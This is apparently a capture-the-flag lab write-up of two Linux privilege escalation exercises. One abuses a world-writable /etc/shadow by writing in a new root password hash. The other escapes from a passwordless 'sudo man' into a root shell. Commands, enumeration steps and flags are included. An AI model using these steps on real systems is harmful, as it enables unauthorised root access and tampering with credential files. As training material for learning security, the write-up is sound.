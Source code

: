 # 🔬Linux Privilege Escalation

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Permissions Matter!](https://www.attackdefense.com/challengedetailsnoauth?cid=75)
>
> * Direct access to the target machine via `student` unprivileged user
> * Find specific **Linux Privilege escalation vulnerabilities manually**
> * Some files permissions are not set properly, use them to elevate privileges.

### Local Enumeration <a href="#local-enumeration" id="local-enumeration"></a>

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Misconfigured Permissions Files <a href="#misconfigured-permissions-files" id="misconfigured-permissions-files"></a>

* Look for **world writable files**
  * _Find a file that could help to elevate privileges_

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

> ❗ `/etc/shadow` is writable by everyone!

```bash
ls -l /etc/shadow
cat /etc/shadow

# "root" user doesn't have a password specified
```

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

* `/etc/shadow` stores the passwords in an encrypted format, so the `root` password need to be replaced with a hashed password

```bash
# Generate a password entry
openssl passwd -1 -salt abc password
	$1$v0N3U84r$mvHpbPX/9Zl.3YOSKjQ4p/

# Edit and paste the hashed password into the /etc/shadow file
vim /etc/shadow
```

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

* Switch to the `root` user

```bash
su
# type "password" password for "root" user
whoami

cd
ls
cat flag
```

<figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
**Flag:** `e62ab67ddff744d60cbb6232feaefc4d`
{% endhint %}

***

## Lab 2

> 🔬 [Editing Gone Wrong](https://www.attackdefense.com/challengedetailsnoauth?cid=80)
>
> * Direct access to the target machine via `student` unprivileged user
> * Find **misconfigured `sudo` privileges**

### Local Enumeration <a href="#local-enumeration-1" id="local-enumeration-1"></a>

<figure><img src="../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

### Misconfigured SUDO Privileges <a href="#misconfigured-sudo-privileges" id="misconfigured-sudo-privileges"></a>

* Find [`setuid`](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) programs

```bash
find / -user root -perm -4000 -exec ls -ldb {} \;
 
find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

> 📌 Useful tool - [FallOfSudo](https://github.com/CyberOne-TeamARES/FallOfSudo)

* Identify what commands the `student` user can run

```basic
sudo -l
```

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

> ❗ **`/usr/bin/man`** binary can be run _**with**** ****`SUDO`**** ****privileges, without providing a**** ****`root`**** ****user password**_

* This can happen on Linux systems for specific binaries that other users have to run with `SUDO` privileges. It looks _harmless_, but it can allow users to spawn bash privileged sessions, since **the specific binary can be utilized to execute specific commands**. Those commands are executed with the binary `root` privileges.

### Privilege Escalation <a href="#privilege-escalation-1" id="privilege-escalation-1"></a>

```bash
sudo man ls
```

* In the `man` scrolling page, using the **`!`** a `bash` can be spawned

```bash
!/bin/bash

# "root" bash sessions is received
```

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

* Retrieve the flag with the **`root`** user

<figure><img src="../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
**Flag:** `74f5cc752947ec8a522f9c49453b8e9a`
{% endhint %}
